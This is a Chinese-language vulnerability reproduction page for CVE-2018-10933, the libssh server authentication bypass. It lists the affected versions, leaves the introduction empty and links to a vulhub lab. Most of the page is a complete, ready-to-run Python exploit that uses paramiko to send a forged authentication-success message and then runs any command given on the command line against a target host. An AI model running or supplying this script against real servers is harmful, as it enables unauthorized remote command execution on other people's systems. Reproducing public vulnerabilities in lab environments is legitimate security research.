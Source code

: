 # （CVE-2018-10933）Libssh 服务端权限认证绕过漏洞

## 一、漏洞简介

## 二、漏洞影响

libssh的server-side state machine 0.7.6之前版本和0.8.4

## 三、复现过程

```
CVE-2018-10933.py

```

```python
#!/usr/bin/env python3
import sys
import paramiko
import socket
import logging

logging.basicConfig(stream=sys.stdout, level=logging.DEBUG)
bufsize = 2048

def execute(hostname, port, command):
    sock = socket.socket()
    try:
        sock.connect((hostname, int(port)))

        message = paramiko.message.Message()
        transport = paramiko.transport.Transport(sock)
        transport.start_client()

        message.add_byte(paramiko.common.cMSG_USERAUTH_SUCCESS)
        transport._send_message(message)

        client = transport.open_session(timeout=10)
        client.exec_command(command)

        # stdin = client.makefile("wb", bufsize)
        stdout = client.makefile("rb", bufsize)
        stderr = client.makefile_stderr("rb", bufsize)

        output = stdout.read()
        error = stderr.read()

        stdout.close()
        stderr.close()

        return (output+error).decode()
    except paramiko.SSHException as e:
        logging.exception(e)
        logging.debug("TCPForwarding disabled on remote server can't connect. Not Vulnerable")
    except socket.error:
        logging.debug("Unable to connect.")

    return None

if __name__ == '__main__':
    print(execute(sys.argv[1], sys.argv[2], sys.argv[3]))

```

使用python3执行，即可在目标服务器上执行任意命令：

![2.png](images/2020_06_13/8079aabb68634ecba5e199608861cf09.png)

## 参考链接

> https://vulhub.org/#/environments/libssh/CVE-2018-10933/

